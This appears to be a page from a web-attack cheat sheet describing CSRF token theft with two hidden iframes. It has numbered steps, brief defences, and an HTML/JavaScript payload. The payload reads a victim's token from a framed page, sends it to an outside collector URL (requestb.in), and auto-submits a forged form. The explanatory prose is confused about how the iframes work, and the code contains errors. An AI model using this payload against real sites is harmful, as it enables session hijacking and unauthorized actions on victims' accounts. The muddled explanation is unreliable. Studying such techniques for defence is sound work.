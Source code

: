 To perform a Cross-Site Request Forgery (CSRF) attack, one common technique is to steal the victim's authentication token and send it using two iframes. This attack takes advantage of the fact that many websites use tokens to authenticate user requests.

Here's how the attack works:

1. The attacker creates a malicious webpage that contains two hidden iframes.
2. The first iframe is used to load the target website's login page.
3. The second iframe is used to submit a form with the victim's token to a different URL controlled by the attacker.
4. When the victim visits the malicious webpage, the first iframe loads the login page of the target website. The victim may not notice anything suspicious at this point.
5. The login page contains a hidden form that automatically submits the victim's token to the attacker-controlled URL. This is done using JavaScript code injected into the login page.
6. The second iframe, which is hidden from the victim, captures the victim's token and sends it to the attacker's server.
7. The attacker can then use the stolen token to perform actions on behalf of the victim, such as making unauthorized requests or modifying the victim's account settings.

To protect against this type of attack, website developers should implement measures such as:

- Implementing CSRF tokens that are unique for each user session.
- Ensuring that sensitive actions, such as changing account settings or making financial transactions, require re-authentication.
- Implementing strict content security policies to prevent the loading of external resources.
- Regularly auditing and testing the website for security vulnerabilities.

By understanding how CSRF attacks work, both developers and security professionals can take steps to mitigate the risk and protect users from falling victim to such attacks.
```markup
<script>
var token;
function readframe1(){
token = frame1.document.getElementById("profile").token.value;
document.getElementById("bypass").token.value = token
loadframe2();
}
function loadframe2(){
var test = document.getElementbyId("frame2");
test.src = "http://requestb.in/1g6asbg1?token="+token;
}
</script>

<iframe id="frame1" name="frame1" src="http://google.com?param=VALUE" onload="readframe1()"
sandbox="allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation"
height="600" width="800"></iframe>

<iframe id="frame2" name="frame2"
sandbox="allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation"
height="600" width="800"></iframe>
<body onload="document.forms[0].submit()">
<form id="bypass" name"bypass" method="POST" target="frame2" action="http://google.com?param=VALUE" enctype="multipart/form-data">
<input type="text" name="username" value="z">
<input type="checkbox" name="status" checked="">
<input id="token" type="hidden" name="token" value="0000" />
<button type="submit">Submit</button>
</form>
```
### **POSTSteal CSRF token with Ajax and send a post with a form**
